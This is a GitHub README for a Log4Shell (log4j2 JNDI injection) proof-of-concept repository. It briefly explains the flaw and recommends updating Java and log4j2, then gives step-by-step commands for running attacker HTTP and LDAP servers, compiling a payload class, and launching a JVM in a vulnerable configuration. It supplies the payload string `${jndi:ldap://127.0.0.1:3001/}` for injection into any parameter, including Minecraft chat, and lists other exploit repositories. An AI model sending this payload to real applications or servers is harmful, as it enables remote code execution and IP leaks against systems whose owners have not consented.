 # log4j2-banter

## Motivation
<p>This fundamental vulnerability was reported by [CVE-2018-3149](https://nvd.nist.gov/vuln/detail/CVE-2018-3149) and patched by [this article. (8u121 Release Notes)](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)</p>
<p>However, the logging library for java called log4j2 had [JNDILookup](https://github.com/apache/logging-log4j2/blob/20f9a97dbe5928c3b5077bcdd2a22ac92e941655/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java), which allowed access to protocols such as LDAP, which allowed code injection in older java versions.</p>
<p>Patched versions of java can prevent code injection, but `JNDILookup` makes request to ldap server, which can lead to IP leaks.</p>
<p>The solution is to update **Java** and **log4j2** versions.</p>

## Running
0. Install requirements
```
system requirements => requirements.txt (gradle is not per say required, use any building tool with same output)
npm requirements => npm-requirements.txt
$ cd http-server && npm install && cd ../ldap-server && npm install
```
1. run `http-server` and `ldap-server` both
```
$ DATE=17-14-57_13-12-2021 && cd http-server && node index.js 2>&1 >$DATE_http-server.log & && cd ldap-server && node index.js 2>&1 >$DATE_ldap-server.log &
```
2. Compile Main.java
```bash
# This will generate Main.java - required to code injection .
# OSx
$ ./java-single-compile Main.java
# Linux 
$ javac Main.java
```
3. Start jvm with parameters
```bash
# You can still use log4j-client in repo for internal testing.
$ cd log4j-client &&\
		gradle jar &&\
		java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build/libs/log4j-client-1.0-SNAPSHOT.jar
# Or run other application, com.sun.jndi.ldap.object.trustURLCodebase=true required for code injection, otherwise it will only request to ldap server.
$ java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar <javafile.jar>
```
4. Send `${jndi:ldap://127.0.0.1:3001/}` to any parameters as the payload
(In minecraft, just chatting this will work if exploit's working.)

## References
- https://github.com/apache/logging-log4j2/pull/608
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://github.com/NCSC-NL/log4shell
- https://github.com/ilsubyeega/log4j2-exploits/
- https://raw.githubusercontent.com/ferderplays/Log4j_exploit/main/Exploit.java

## License [GPL3]
See License in LICENSE

